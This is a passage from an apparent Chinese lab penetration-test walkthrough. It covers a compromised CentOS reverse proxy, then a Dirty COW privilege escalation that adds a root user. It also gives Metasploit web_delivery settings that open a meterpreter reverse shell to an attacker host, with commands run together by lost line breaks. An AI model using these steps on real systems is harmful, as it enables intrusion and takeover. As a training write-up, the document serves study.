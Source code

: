看来目标网站应该是做了反向代理了，将处于内网的 Ubuntu（192.168.93.120）代理到了 CentOS（192.168.1.110）上。查看了 CentOS 上的 nginx 配置文件后，证实了我的猜想：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvldBgzjibJqsdibTKRkda2T6pfiaesDvHp8lWe0Fc2DaEzO7ng3HtTJGUvg/640?wx_fmt=png)image-20210203200115530

如上图我们在 CentOS 的 nginx 配置中成功发现了 nginx 反向代理的标志——“proxy_pass”，这就说明 CentOS（192.168.1.110）服务器上的 nginx 并不是用来进行 web 服务的，而是用来做反向代理的，我们可以看到，CentOS 服务器上的 nginx 把收到的请求转发给了内网的服务器 192.168.93.120，也就是我们之前 Getshell 的 Ubuntu。

好了，到目前为止我们已经拿下了两台主机了：

•CentOS：192.168.1.110•Ubuntu：192.168.93.120

但是权限都很低，虽然我们有了 CentOS 的用户名和密码，但是 CentOS 主机禁止了当前用户执行 sudo，为了能执行更多的命令我们还需要进行提权。Ubuntu 的内核比较新，所以我们主要还是考虑提权 CentOS。

### 权限提升

我们使用大名鼎鼎的脏牛（CVE-2016-5195）对 CentOS 进行提权。

首先下载 Exp：https://github.com/FireFart/dirtycow

编译下载的 Exp：

```
gcc -pthread dirty.c -o dirty -lcrypt
```

将编译好的漏洞利用程序上传到 CentOS 中一个有权限的目录，然后执行如下命令：

```
./dirty 123456# ./dirty <password>
```

执行完成后，会在目标主机上添加一个名为 firefart，密码为 123456 且具备 root 权限的用户，切换到该用户即可获得 root 权限，如下图所示：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlyicen06lNFeteaODf4Av9LblGNRjAMsKfGmtzjib3YlEfELGwGYNkVvQ/640?wx_fmt=png)image-20210203214148796

攻入内网
----

为了更好的渗透内网，我要给 CentOS 上一个 metasploit 的 shell：

```
use exploit/multi/script/web_deliveryset target 6    # 选择目标系统set payload linux/x64/meterpreter/reverse_tcpset lhost 192.168.1.9set lport 4444exploit
```

执行后，会生成一条命令：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlcHibg4I6pDnmCWMnN9bhDL4TicdDib8vvQIZoWu0pekljLicR0TAEa2CLA/640?wx_fmt=png)image-20210203215521527

将该命令再目标机 CentOS 上执行即可获得其 meterpreter：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlbyJn0BlC8ZKFf57sMX8vYSvibGAkGb6hWlh7aaHuFpNIKVbDiaJfZdTA/640?wx_fmt=png)image-20210203215752643

### 路由转发与 Socks 代理

添加一个通向内网 192.168.93.0/24 网段的路由：
